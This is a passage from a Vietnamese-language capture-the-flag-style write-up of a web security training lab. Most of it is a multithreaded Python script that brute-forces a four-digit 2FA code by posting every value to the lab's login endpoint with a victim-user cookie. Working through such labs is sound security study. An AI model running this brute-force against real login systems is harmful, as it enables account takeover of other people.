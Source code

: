 ==>Không có gì khác biết

==>ĐÚNG

-Giờ thử làm vậy với gói tin có mã 2FA xem:

![alt text](./img/lab8-3.png)

==>Cần brute-force để lấy được mã mfa-code chính xác rồi (Do đã xác định được mã gồm 4-digit):

==>Cách viết nhanh là sử dụng đa luồng cho python:

```python
import requests
from concurrent.futures import ThreadPoolExecutor
url = "https://0aad00c0046d860780e80ddf00440077.web-security-academy.net/login2"
cookies = {
    "verify": "carlos"
}
found = False
def try_code(code):
    global found
    if found:
       return
   
    mfa_code = str(code).zfill(4)
    data = {"mfa-code" : mfa_code}
    
    response = requests.post(url, cookies=cookies, data=data, allow_redirects=False)
    
    if response.status_code == 302:
        print(f"\n[+] MFA code found: {mfa_code}")
        found = True
    else:
        print(f"[-] Tried {mfa_code}", end = '\r')
        
with ThreadPoolExecutor(max_workers=20) as executor:
    executor.map(try_code, range(10000))     
```
